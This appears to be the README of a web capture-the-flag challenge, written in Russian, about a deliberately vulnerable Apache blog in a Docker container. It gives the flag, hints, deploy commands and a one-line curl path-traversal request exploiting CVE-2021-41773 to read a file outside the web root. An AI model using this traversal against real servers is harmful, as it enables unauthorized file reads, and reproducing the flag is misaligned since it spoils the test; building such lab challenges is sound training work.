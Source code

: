 __Category__: 
* Web

__Author__: 
* @RegularITCat

__Description__: 
Еу!
чек ит аут, очередной скрипт кидди, думающий что он крутой хакер, сделал свой блог. Как думаешь, расковыряем?

__Flag__: 
* YetiCTF{damn_br0_wanna_hackThingsWithMeX}

__Hints__: 
* О, Апач, норм.
* Ну и дичь он конечно пишет... Хотя, пост Tired интересный
* Зачекайка свеженькие proof of concept 

__Deploy__: 
* `docker build -t kiddieblog .; docker run -dp 80:80 --name kiddieblog kiddieblog`
* `curl "http://localhost:80/cgi-bin/.%2e/.%2e/.%2e/.%2e/easterEgg/flag.txt"`
* `docker stop kiddieblog && docker rm kiddieblog`

__Writeup__: 

Это просто cve-2021-41773
Основная идея в том, что вы почитаете блог, увидите со временем, что он написан на апаче, пойдете поищете уязвимости, да похекаете.
